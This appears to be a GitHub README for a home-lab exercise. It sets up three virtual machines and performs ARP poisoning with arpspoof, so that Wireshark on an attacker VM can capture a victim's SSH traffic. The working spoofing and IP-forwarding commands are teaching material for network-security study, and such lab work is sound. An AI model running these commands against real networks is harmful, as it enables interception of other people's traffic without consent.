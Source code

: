  # Wireshark MitM Analysis Setup Guide

   ## Prerequisites
   - **OS**: Ubuntu 22.04 LTS (3 VMs: Victim, Target, Attacker).
   - **Hardware**: 2-4 GB RAM, 2 CPUs, 20 GB storage per VM.
   - **Network**: VirtualBox NAT or Host-Only network.
   - **Tools**: Wireshark, dsniff, Nmap.

   ## Installation
   1. **Update System**:
      sudo apt update && sudo apt upgrade -y
   2. **Install Tools on Attacker VM**:
      sudo apt install -y wireshark dsniff nmap
   3. **Enable IP Forwarding**:
      sudo sysctl -w net.ipv4.ip_forward=1

   ## Configuration
   - IPs: Victim (`192.168.227.164`), Target (`192.168.227.93`), Attacker (`192.168.227.50`).
	You can assign you own IPs
   - Verify connectivity:
     ping 192.168.227.93

   ## Running the Attack
   - Start Wireshark:
     sudo wireshark &
   - Perform ARP poisoning:
     sudo arpspoof -i ens33 -t 192.168.227.164 -r 192.168.227.93
     sudo arpspoof -i eth0 -t 192.168.227.93 -r 192.168.227.164
   - Generate traffic from Victim:
     ssh 192.168.227.93

   ## Analysis
   - Filter in Wireshark: `arp`, `tcp.port==22`, or `ip.src == 192.168.227.164`.
   - Save capture: `mitm_capture.pcap`.
   - Export analysis: `mitm_analysis.txt`.

   ## Notes
   - Replace IPs with your network’s values.
   - Verify interface with `ip link`.
   - See [REPORT.md](REPORT.md) for results.

   ---

   **Author**: Chinkhuselts  
   **GitHub**: [github.com/Chinkhuselts](https://github.com/Chinkhuselts)
   ```
